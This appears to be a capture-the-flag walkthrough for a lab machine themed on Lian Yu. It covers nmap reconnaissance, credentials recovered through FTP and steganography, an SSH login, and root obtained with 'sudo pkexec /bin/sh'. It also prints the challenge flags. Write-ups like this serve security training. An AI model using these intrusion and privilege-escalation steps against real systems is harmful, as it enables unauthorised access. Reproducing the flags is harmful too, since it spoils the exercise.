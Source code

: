 

nmap
```
└─$ sudo nmap -sV 10.10.51.224
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 12:48 PDT
Nmap scan report for 10.10.51.224
Host is up (0.16s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    Apache httpd
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.12 seconds

```

/island

```

<!DOCTYPE html>
<html>
<body>
<style>
 
</style>
<h1> Ohhh Noo, Don't Talk............... </h1>

<p> I wasn't Expecting You at this Moment. I will meet you there </p><!-- go!go!go! -->


<p>You should find a way to <b> Lian_Yu</b> as we are planed. 
The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>

</body>
</html>

```

/island/green_arrow.ticket
```
This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX

```

`!#th3h00d`


ftp 

`vigilante:!#th3h00d`

find 3 files. 
Lianyu.png
Leave_me_alone.png
aa.jpg

if we `cd ..` and then list the directory we find another user, `slade`, which I cannot cd into.


Leave_me_alone.png can't be opened, so I used hedexit to see the bytes. 
Looking up what the initial bytes in a .png header, I can see that these first 8 bytes don't match. I changed them to be the correct values and now I can open the image.

It gives me `password` as a password. I used steghide to extract aa.jpg using `password` as the password, which worked. I got a `ss.zip` and after I unpacked it, I get two files.

passwd.txt
```
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.

```

shado
`M3tahuman`


ssh 
`slade:M3tahuman`

user.txt
```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
                        --Felicity Smoak

```

```
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec

```

from gtfobins
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

sudo pkexec /bin/sh
```

after running the command
```
# whoami
root

```


root.txt
```
                         Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825

```
